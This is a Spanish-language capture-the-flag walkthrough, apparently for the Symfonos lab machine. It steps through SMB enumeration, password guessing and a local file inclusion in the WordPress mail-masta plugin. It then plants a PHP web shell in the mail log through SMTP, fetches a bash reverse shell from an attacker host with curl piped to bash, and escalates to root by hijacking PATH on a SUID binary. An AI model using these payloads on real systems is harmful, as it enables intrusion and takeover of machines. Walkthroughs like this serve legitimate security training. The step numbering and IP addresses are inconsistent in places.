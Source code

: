 1. Escaneo de puertos 
```
nmap -p- --open -n -sSC -vvv --min-rate 4000 -Pn -o scanPorts 192.168.48.144
```
Impresión
```java
Discovered open port 445/tcp on 192.168.48.144
Discovered open port 139/tcp on 192.168.48.144
Discovered open port 25/tcp on 192.168.48.144
Discovered open port 22/tcp on 192.168.48.144
Discovered open port 80/tcp on 192.168.48.144
```

2. Escanear el servicio `smb` que se encuentra abierto
```
smbmap -H 192.168.84.144
```
Impresión 
```java
[+] Guest session   	IP: 192.168.48.144:445	Name: 192.168.48.144                                    
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	helios                                            	NO ACCESS	Helios personal share
	anonymous                                         	READ ONLY	
	IPC$                                              	NO ACCESS	IPC Service (Samba 4.5.16-Debian)
```

3. El usuario `anonimous` tiene permiso de lectura, observar recursos
```
smbmap -H 192.168.48.144 -r anonymous
```
Impresión 
```java
[+] Guest session   	IP: 192.168.48.144:445	Name: 192.168.48.144                                    
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	anonymous                                         	READ ONLY	
	.\anonymous\*
	dr--r--r--                0 Fri Jun 28 20:14:49 2019	.
	dr--r--r--                0 Fri Jun 28 20:12:15 2019	..
	fr--r--r--              154 Fri Jun 28 20:14:49 2019	attention.txt
```

4. Descargar el archivo `attention.txt`
```
smbmap -H 192.168.48.144 --download anonymous/attention.txt 
```
Impresión
```
Can users please stop using passwords like 'epidioko', 'qwerty' and 'baseball'! 

Next person I find using one of these passwords will be fired!

-Zeus
```

5. Probar las contraseñas con el usuario `helios` (Encontrado anteriormente)
```
smbmap -H 192.168.48.144 -u helios -p qwerty
```

6. Observar recursos con nuevo usuario
```
smbmap -H 192.168.48.144 -u helios -p qwerty -r
```
Impresión
```java
[+] IP: 192.168.48.144:445	Name: 192.168.48.144                                    
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	READ ONLY	Printer Drivers
	.\print$\*
	dr--r--r--                0 Fri Jun 28 19:35:16 2019	.
	dr--r--r--                0 Fri Jun 28 19:35:19 2019	..
	dr--r--r--                0 Wed May  8 15:23:36 2019	W32ALPHA
	dr--r--r--                0 Wed May  8 15:23:36 2019	COLOR
	dr--r--r--                0 Wed May  8 15:23:36 2019	W32X86
	dr--r--r--                0 Wed May  8 15:23:36 2019	WIN40
	dr--r--r--                0 Wed May  8 15:23:36 2019	W32PPC
	dr--r--r--                0 Wed May  8 15:23:36 2019	x64
	dr--r--r--                0 Wed May  8 15:23:36 2019	W32MIPS
	dr--r--r--                0 Wed May  8 15:23:36 2019	IA64
	helios                                            	READ ONLY	Helios personal share
	.\helios\*
	dr--r--r--                0 Fri Jun 28 19:32:05 2019	.
	dr--r--r--                0 Fri Jun 28 19:37:04 2019	..
	fr--r--r--              432 Fri Jun 28 19:32:05 2019	research.txt
	fr--r--r--               52 Fri Jun 28 19:32:05 2019	todo.txt
	anonymous                                         	READ ONLY	
	.\anonymous\*
	dr--r--r--                0 Fri Jun 28 20:14:49 2019	.
	dr--r--r--                0 Fri Jun 28 20:12:15 2019	..
	fr--r--r--              154 Fri Jun 28 20:14:49 2019	attention.txt
	IPC$                                              	NO ACCESS	IPC Service (Samba 4.5.16-Debian)
```

6. Descargar el recurso 
```
smbmap -H 192.168.48.144 -u helios -p qwerty -r --download helios/todo.txt
```
7. Entrar al directorio encontrado en el archivo
```
http://192.168.48.144/h3l105/
```
8. Buscar los `plugins` que aloja la pagina
```
curl http://192.168.48.144/h3l105/ | grep 'wp-content'
```
Impresión 
```html
<script type='text/javascript' src='http://symfonos.local/h3l105/wp-content/plugins/mail-masta/lib/subscriber.js?ver=5.2.2'></script>
<script type='text/javascript' src='http://symfonos.local/h3l105/wp-content/plugins/mail-masta/lib/jquery.validationEngine-en.js?ver=5.2.2'></script>
<script type='text/javascript' src='http://symfonos.local/h3l105/wp-content/plugins/mail-masta/lib/jquery.validationEngine.js?ver=5.2.2'></script>
```
También con 
```
wpscan --url http://192.168.48.144/h3l105/ -e u,p
```
**NOTA:** El plugin vulnerable es `mail-masta`

9.  Buscar plugin en la pagina de wpscan 
```
https://wpscan.com/plugins/
https://wpscan.com/plugin/mail-masta/
https://wpscan.com/vulnerability/5136d5cf-43c7-4d09-bf14-75ff8b77bb44/
```

10. Utilizar el ejemplo encontrado en `https://wpscan.com/vulnerability/5136d5cf-43c7-4d09-bf14-75ff8b77bb44/`
```
http://example.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
Con un ip
```
http://192.168.48.144/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

11. Entrar por el protocolo 25 para enviar data 
```
nc 192.168.18.48.144 25
```
Impresión 
```
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
```

12. Enviar un EMAIL malicioso
```
> MAIL FROM: hola@hola.com
> RCPT TO: helios
> DATA
> <?php system($_GET['cmd'])?>
> .
```
Impresión 
```
250 2.0.0 Ok: queued as 5413F406A6
```

13. Utilizar la consola desde la web
```
http://192.168.48.144/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=whoami
```

14. Conectar la maquina victima con la atacante
Crear un archivo `.html` con una reverse shell
```html
#!/bin/bash
bash -i >& /dev/tcp/192.168.48.162/443 0>&1
```

Levantar un servidor
```
python3 -m http.server 80
```

Colocar en escucha el puerto 443
```
nc -nlvp 443
```

Conectar a la maquina desde la url 
```
http://192.168.48.144/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=curl%20192.168.48.162%20|%20bash
```

12. Hacer un tratamiento de la tty
```
script /dev/null -c bash
ctrl + z
stty raw echo;fg
reset xterm
export SHELL=bash
export XTERM=term
```

13. Buscar archivos con permisos `SUID`
```
find / -perm -4000 -user root 2>/dev/null 
```
Impresión 
```
/opt/statuscheck
```

 14. Observar el archivo 
```
/opt/statuscheck
```
Impresión 
```
HTTP/1.1 200 OK
Date: Tue, 28 May 2024 21:39:16 GMT
Server: Apache/2.4.25 (Debian)
Last-Modified: Sat, 29 Jun 2019 00:38:05 GMT
ETag: "148-58c6b9bb3bc5b"
Accept-Ranges: bytes
Content-Length: 328
Vary: Accept-Encoding
Content-Type: text/html
```

15. Con `strings` listar las cadenas de caracteres legibles 
```
curl -I H
```

16. Hacer un PATHACKING al `curl`
```
cd /tmp
echo chmod u+s /bin/bash > curl
chmod +x curl
export PATH=/tmp:$PATH
/opt/statuscheck
```

17. Usar una `bash`
```
bash -p 
```
